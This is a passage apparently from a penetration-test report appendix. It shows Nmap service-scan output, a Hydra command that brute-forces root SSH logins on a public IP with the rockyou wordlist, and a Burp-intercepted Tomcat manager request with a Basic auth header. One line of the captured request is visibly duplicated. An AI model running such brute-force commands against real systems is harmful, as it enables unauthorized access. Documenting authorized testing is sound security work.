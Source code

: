 ```bash
5432/tcp open   postgresql PostgreSQL DB 9.6.0 or later
8080/tcp open   http-proxy
8181/tcp open   http       Ajenti http control panel
... (service fingerprints omitted) ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.94 seconds
```

### Figure D-4. Hydra command to exploit a vulnerability using leaked credentials
```bash
┌──(kali㉿user)-[~]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 18.133.5.44 -t 5 ssh
```

### Figure D-5. Burp Suite to intercept login credentials
```bash
GET /manager/html HTTP/1.1
Host: 18.133.5.44:8080
Cache-Control: max-age=0
Authorization: Basic GET /manager/html HTTP/1.1
Host: 18.133.5.44:8080
Cache-Control: max-age=0
Authorization: Basic dGVzdDE6dGVzdDI=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: visited=1
Connection: close
```
